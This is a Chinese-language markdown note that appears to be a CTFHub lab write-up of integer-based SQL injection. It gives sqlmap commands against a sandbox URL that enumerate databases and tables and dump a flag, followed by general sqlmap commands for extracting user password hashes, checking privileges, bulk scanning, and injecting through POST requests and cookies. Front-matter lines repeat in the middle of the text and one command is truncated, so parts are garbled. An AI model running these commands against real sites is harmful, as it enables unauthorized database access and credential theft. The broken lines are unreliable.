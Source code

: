 ```yaml
---
cover: https://w.wallhaven.cc/full/xl/wallhaven-xleg7l.jpg
created: 2024-11-27T22:18
date: 2024-11-12 18:06:06+00:00
tag: web渗透
title: 整数型SQL注入
updated: 2024-12-30T23:33
---
```




# 整数型SQL注入

ctfhub{f797878b77751f2aa52c00bd}

#### 检测注入点

```cobol
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1"             //检测过程中需要手动输入y/n，即是否继续进行[sql注入](sql注入.md)检测
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" --batch     //检测过程中默认继续进行[sql注入](sql注入.md)检测
```

#### 产看所有数据库

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:--dbs
```

```shell
available databases [4]:                               
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
```

#### 查看当前网站使用的数据库

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" --current-db
```

#### 产看[数据表](https://so.csdn.net/so/search?q=%E6%95%B0%E6%8D%AE%E8%A1%A8&spm=1001.2101.3001.7020)

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" -D 'sqli' --tables
```

```shell
Database: sqli                                         
[2 tables]
+------+
| flag |
| news |
+------+
```

#### 查看字段

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" -D 'sqli' -T 'flag' --columns
```

```shell
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(100) |
+--------+--------------+
```

#### 查看字段数据

```perl
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" -D 'sqli' -T 'flag' --dump
```

```shell
abase 'sqli'
Database: sqli'
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{4598642ab583bc461923d8c9} |
+----------------------------------+
```

#### [查看数据库](https://so.csdn.net/so/search?q=%E6%9F%A5%E7%9C%8B%E6%95%B0%E6%8D%AE%E5%BA%93&spm=1001.2101.3001.7020)用户

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" --current-user
```

#### 查看所有用户

```sql
sqlmap -u 完整url --users
```

#### 获取数据库用户密码

```sql
sqlmap -u 完整url --passwords
```

#### 查看[用户权限](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90&spm=1001.2101.3001.7020)

```sql
sqlmap -u 完整url --privileges
```

#### 判断当前数据库用户是否是管理员

```csharp
sqlmap -u 完整url --is-dba
```

### 自动化扫描

将抓到的数据包右键copy to file，然后使用kali注入

```sql
sqlmap -r '数据包路径' --dbs --batch
```

### 批量自动化扫描

新建xxx.txt文件，里面存放多个url

```undefined
sqlmap -m xxx.txt
```

---

### post请求注入

将抓包抓到的http请求内容存放到.txt文件中

```undefined
sqlmap -r xxx.txt
```

tags: [web渗透]
title: 整数型SQL注入
title: 整数型SQL注入
title: 整数型SQL注入
tags: [web渗透]
title: 整数型SQL注入
tags: [web渗透]
---

### cookie注入

一些需要登录的网站在用sqlmap进行注入时，需要添加cookie参数：

```csharp
sqlmap -u 完整curl --cookie 'cookie'（单引号和双引号都行）
```
[sql注入](sql注入.md)